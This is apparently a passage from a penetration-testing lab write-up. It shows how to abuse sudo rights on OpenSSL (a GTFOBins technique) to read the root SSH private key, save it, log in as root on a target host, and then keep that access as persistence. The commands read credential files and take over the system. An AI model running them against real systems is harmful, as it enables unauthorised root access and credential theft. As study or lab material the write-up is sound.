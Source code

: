 ### 🛠️ OpenSSL GTFOBin Exploitation
```bash
# GTFOBins reference: https://gtfobins.github.io/gtfobins/openssl/
# Privileged file read capability

# Target: Root SSH private key
LFILE=/root/.ssh/id_rsa
sudo /usr/bin/openssl enc -in $LFILE

# Expected output:
-----BEGIN OPENSSH PRIVATE KEY-----
[BASE64_ENCODED_PRIVATE_KEY]
-----END OPENSSH PRIVATE KEY-----
```

### 🔐 SSH Key Persistence Setup
```bash
# 1. Save extracted private key locally
cat > dmz01_root_key << 'EOF'
-----BEGIN OPENSSH PRIVATE KEY-----
[EXTRACTED_PRIVATE_KEY_CONTENT]
-----END OPENSSH PRIVATE KEY-----
EOF

# 2. Set proper permissions
chmod 600 dmz01_root_key

# 3. Test root SSH access
ssh -i dmz01_root_key root@TARGET_IP

# 4. Verify root privileges
root@dmz01:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## 🎯 Persistence Benefits Analysis

### 🚀 Access Advantages
```cmd
# Stable SSH access provides:
- Immediate daily access restoration
- No complex exploitation chain repetition
- Reliable tunneling/pivoting capabilities
- Professional assessment efficiency
- Backup access redundancy

# Root privileges enable:
- Complete system control
- Advanced persistence mechanisms
- Network configuration access
- Internal reconnaissance capabilities
- Pivot infrastructure deployment
```
